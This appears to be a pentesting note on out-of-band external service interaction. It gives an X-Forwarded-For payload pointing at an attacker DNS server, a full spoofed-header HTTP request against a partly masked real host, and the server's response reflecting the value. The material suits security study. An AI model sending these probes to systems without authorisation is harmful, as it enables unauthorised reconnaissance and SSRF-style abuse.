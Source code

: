 # Out-of-band communication / external service interaction
External service interaction arise when the application interacts with an arbitrary external service, such as HTTP/HTTPS, DNS, FTP or e-mail servers.
The ability to trigger arbitrary external service interactions does not constitute a vulnerability in its own right, however, it allows the vulnerable server to be used as an attack proxy server.
There are a few types of external service interaction:
- [External Service Interaction (HTTP/HTTPS)](#external-service-interaction-(http/https))
- [External Service Interaction (DNS)](#external-service-interaction-(DNS))
- [Out-of-band Resource Load (HTTP)](#out-of-band-resource-load-(http))

## External service interaction (DNS)
Payload: `X-Forwarded-For: external-dns-interaction.whitecat.dns.server.here`
#### Request:
```
GET / HTTP/1.1
Host: deliver**.ie
X-Forwarded-For: external-dns-interaction.whitecat.dns.server.here
True-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
Referer: http://127.0.0.1/
X-WAP-Profile: http://127.0.0.1/wap.xml
X-Scraped: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close
```

#### Response:
```
HTTP/1.1 500 Internal Server Error
Date: Thu, 19 Jul 2018 19:14:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 46356
Connection: close
[...]
"ip":"external-dns-interaction.whitecat.dns.server.here","referer":"http://127.0.0.1/"
[...]
```

#### Bind logs:
![Logo](https://www.pwncave.net/images/deliver-ext-dns-int-bind.PNG)

#### Interaction with `netcat`
![Logo](https://www.pwncave.net/images/deliver-nc-udp-53.PNG)

### References
- https://portswigger.net/kb/issues/00300200_external-service-interaction-dns
- https://www.slideshare.net/Insovince/external-service-interaction
